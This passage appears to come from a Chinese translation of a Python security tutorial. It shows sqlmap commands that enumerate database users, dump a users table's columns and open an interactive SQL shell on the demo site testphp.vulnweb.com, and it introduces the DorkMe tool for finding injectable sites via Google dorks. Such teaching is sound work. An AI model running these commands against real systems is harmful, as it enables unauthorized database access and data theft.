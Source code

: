 从下图中，我们可以看到我们已经访问了数据库中的数据：

![](assets/6c92aa64-3640-4011-9c2d-9184315084b5.png)

# 其他命令

类似地，在易受攻击的网站上，我们可以通过数据库进行浏览，用其他命令提取信息。

使用此命令，我们可以从数据库中获取所有用户：

```py
$ python sqlmap.py -u [URL] --users
sqlmap.py -u "http://testphp.vulnweb.com/listproducts.php?cat=*" --users
```

在此，我们获得在数据库管理系统中注册的用户：

![](assets/3d67ef38-867a-4907-aa9f-5277b7e4b8c1.png)

使用此命令，我们可以从表中获取列：

```py
$ python sqlmap.py -u [URL] -D [Database] -T [table] --columns
sqlmap.py -u "http://testphp.vulnweb.com/listproducts.php?cat=*" -D acuart -T users --columns
```

这里，我们从 users 表中获取列：

![](assets/948d4ea1-9b96-47c7-9ad7-e817d5366bd5.png)

使用此命令，我们可以获得一个交互式 shell：

```py
$ python sqlmap.py -u [URL] --sql-shell
sqlmap.py -u "http://testphp.vulnweb.com/listproducts.php?cat=*" --sql-shell
```

在这里，我们获得了一个 shell，用于使用 sql 语言查询与数据库交互：

![](assets/18f7991f-639c-4f3a-8c3a-4efdafa79d07.png)

# 用于检测 SQL 注入漏洞的其他工具

在 Python 生态系统中，我们可以找到其他工具，如 DorkMe 和 XScrapy，用于发现 sql 注入漏洞。

# 多克梅

DorkMe 是一个工具，旨在通过 Google Dorks 更轻松地搜索漏洞，例如 SQL 注入漏洞（[https://github.com/blueudp/DorkMe](https://github.com/blueudp/DorkMe) ）。

您还需要安装`pip install Google-Search-API`Python 包。

我们可以使用`requirements.txt`文件检查依赖项，并使用以下文件安装它们：

```py
pip install -r requirements.txt
```
